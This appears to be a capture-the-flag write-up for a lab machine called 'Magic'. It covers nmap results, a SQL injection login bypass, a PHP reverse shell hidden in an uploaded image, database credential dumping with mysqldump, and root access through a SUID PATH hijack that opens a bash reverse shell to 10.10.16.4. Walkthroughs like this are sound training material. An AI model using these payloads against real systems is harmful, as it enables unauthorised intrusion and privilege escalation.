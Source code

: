 Started with a nmap scan
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Going to the website all we have is a login page and we have sql injection with this `admin' or 'a'='a';-- -` and we url encode the spaces with `+` and we have bypassed the login and we have a upload page now and we can only upload pictures but we dont know were they go to so running a gobuster scan `/images/uploads/` so if we use exiftool and put a reverse shell into a good image and then add a `.php.jpg` and upload it then we go to it on the webserver and now we have a shell on the machine so looking around we find there is a `db.php` file with the mysql creds in there and there is no `mysql` binary on the host but there is `mysqldump` `mysqldump --all-databases --password=iamkingtheseus > /tmp/db.sql` and now we have new plain text creds `Th3s3usW4sK1ng` and this is the password for the user account now running linpeas and there is a `SUID` in a binary at `/bin/sysinfo` looking at are path and this binary we can do a PATH hijack `echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.4/443 0>&1' > fdisk` and then do `chmod +x fdisk` and then do `export PATH="/tmp:$PATH"` and then run sysinfo and now we are root 
